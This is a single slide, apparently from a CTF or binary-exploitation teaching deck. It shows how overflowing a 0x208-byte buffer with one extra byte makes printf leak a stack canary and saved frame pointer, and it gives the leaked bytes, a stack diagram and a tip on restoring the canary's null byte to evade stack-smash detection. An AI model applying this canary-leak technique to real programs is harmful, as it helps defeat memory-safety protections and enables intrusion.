

# Canary and Stack
If we give ‘A’*0x208 + ‘B’ to read()
Now printf("%d: %s%s\n",
	iCounter,asctime(gmtime(&timep)),TempBuffer)

It will print
“A”*0x208 + “\x42\xcd\x26\xc9\x79\x0e\x4c\x93
\x70\x2f\x55\x5b\xfc\x7f”
Leak Canary and Stack!!!
P.S:
You need to overflow again and make first byte of canary
to be 0x00, otherwise stack smash detect
Stack memory of Grill()

AAAAA….
TempBuffer[0x208]
AAAAA….
AAAAA….
AAAAA….
AAAAA….
| 42 | cd | 26 | c9 | 79 | 0e | 4c | 93 |
| --- | --- | --- | --- | --- | --- | --- | --- |
canary (rbp-0x8)
| 70 | 2f | 55 | 5b | fc | 7f | 00 | 00 |
| --- | --- | --- | --- | --- | --- | --- | --- |
old rbp (rbp)